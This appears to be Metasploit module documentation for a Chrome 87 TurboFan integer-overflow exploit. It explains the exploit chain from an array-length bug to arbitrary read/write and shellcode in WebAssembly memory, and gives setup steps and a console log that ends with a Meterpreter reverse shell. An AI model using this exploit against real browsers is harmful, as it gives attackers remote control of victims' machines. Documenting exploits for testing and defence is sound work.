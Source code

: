 This module exploits an issue in Google Chrome versions before 87.0.4280.88 (64 bit). The exploit makes use of a integer overflow in the SimplifiedLowering phase in turbofan. It is used along with a typer hardening bypass using ArrayPrototypeShift to create a JSArray with a length of -1. This is abused to gain arbitrary read/write into the isolate region. Then an ArrayBuffer can be used to achieve absolute arbitrary read/write.
The exploit then uses WebAssembly in order to allocate a region of RWX memory, which is then replaced with the payload shellcode.

**The payload is executed within the sandboxed renderer process, so the browser must be run with the --no-sandbox option for the payload to work correctly.**

## Vulnerable Application

The module is compatible with any 64bit Google Chrome (versions before 87.0.4280.88) on multiple platforms. However, the code that writes the shellcode into the rwx region (wasm_rwx_addr) may need to be modified.

**Vulnerable Application Installation Steps**

You can download a vulnerable Chrome version from this location:
[https://chromium.cypress.io/win64/stable/87.0.4280.66](https://chromium.cypress.io/win64/stable/87.0.4280.66)

1. Do: ```use exploit/multi/browser/chrome_simplifiedlowering_overflow```
2. Do: ```set URIPATH / [PATH]```
3. Do: ```set LHOST [IP]```
4. Do: ```set SRVHOST [IP]```
5. Do: ```exploit```

## Scenarios

### Windows 10 and Google Chrome 87.0.4280.66 with --no-sandbox
Start Google Chrome without a sandbox:
```➜  ~ google-chrome-stable --no-sandbox```

```
msf5 > use exploit/multi/browser/chrome_simplifiedlowering_overflow
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/browser/chrome_simplifiedlowering_overflow) > set srvport 80
srvport => 80
msf5 exploit(multi/browser/chrome_simplifiedlowering_overflow) > set uripath /
uripath => /
msf5 exploit(multi/browser/chrome_simplifiedlowering_overflow) > set srvhost 127.0.0.1
srvhost => 127.0.0.1
msf5 exploit(multi/browser/chrome_simplifiedlowering_overflow) > set lhost 127.0.0.1
lhost => 127.0.0.1
msf5 exploit(multi/browser/chrome_simplifiedlowering_overflow) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:4444 
msf5 exploit(multi/browser/chrome) > [*] Using URL: http://127.0.0.1:80/
[*] Server started.
[*] 127.0.0.1        chrome_simplifiedlowering_overflow - Sending /index.html to Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
[*] Sending stage (3012516 bytes) to 127.0.0.1
[*] Meterpreter session 1 opened (127.0.0.1:4444 -> 127.0.0.1:44046) at 2021-04-06 16:33:05 +0530

msf5 exploit(multi/browser/chrome_simplifiedlowering_overflow) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > 
```
